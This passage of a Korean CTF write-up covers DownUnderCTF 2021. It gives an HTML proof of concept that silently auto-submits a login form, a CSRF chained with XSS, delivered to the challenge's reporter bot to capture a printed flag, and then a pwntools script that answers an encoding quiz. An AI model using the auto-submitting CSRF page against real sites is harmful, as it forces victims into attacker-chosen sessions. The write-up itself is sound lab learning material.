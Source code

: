 ```html
<!doctype html>
<html>
  <head>
    <title>xss poc</title>
  </head>
  <body>
        <form action="https://web-notepad-f6ed1a7d.chal-2021.duc.tf/login" method="POST" id=poc>
                <input name='username' value='pocas'>
                <input name='password' value='pocas'>
        </form>
        <script>
                poc.submit()
        </script>
  </body>
</html>
```

노트에 위 POC 코드를 저장하고, 개인 서버에는 위 POC 코드를 올린 후에 리포터 기능으로 개인 서버 URL을 전달 해주겠습니다.

![image](https://user-images.githubusercontent.com/49112423/134767511-4a5c171a-19c6-46e2-a155-049e4bfa2fc9.png)

개인 서버 URL을 전달 해주니 플래그를 획득 할 수 있었습니다.

```
DUCTF{ch4ining_c5rf_c4uses_cha0s_2045c24d}
```

---
### Misc Challenge

#### General Skills Quiz [100 pts]

```python
from pwn import *
from urllib import parse
import base64
import codecs

def base64_decode(data):
    sitename_bytes = base64.b64decode(data)
    return sitename_bytes .decode('ascii')

def url_decode(data):
    return parse.unquote(data)

rot13 = lambda s : codecs.getencoder("rot-13")(s)[0]

p = remote("pwn-2021.duc.tf", 31905)
p.recv()
p.sendline()
p.recv()
p.sendline(b'2')

p.sendline(str(int(str(p.recv()).split(': ')[1].replace('\\n','').replace('\'','').replace('0x',''), 16)).encode())
p.sendline(chr(int(str(p.recv()).split(': ')[1].replace('\\n','').replace('"',''), 16)))
p.sendline(url_decode(str(p.recv()).split(': ')[1].replace('\\n','').replace('"','')).encode())
p.sendline(base64_decode(str(p.recv()).split(': ')[1].replace('\\n','').replace('"','')).encode())
p.sendline(base64.b64encode(str(p.recv()).split(': ')[1].replace('\\n','').replace('"','').encode()))
p.sendline(rot13(str(p.recv()).split(': ')[1].replace('\\n','').replace('"','')).encode())
p.sendline(codecs.encode(str(p.recv()).split(': ')[1].replace('\\n','').replace('"',''), 'rot_13').encode())
p.sendline(str(int(str(p.recv()).split(': ')[1].replace('\\n','').replace('"',''),2)).encode())
p.sendline(str(bin(int(str(p.recv()).split(': ')[1].replace('\\n','').replace('\'','')))).encode())
```
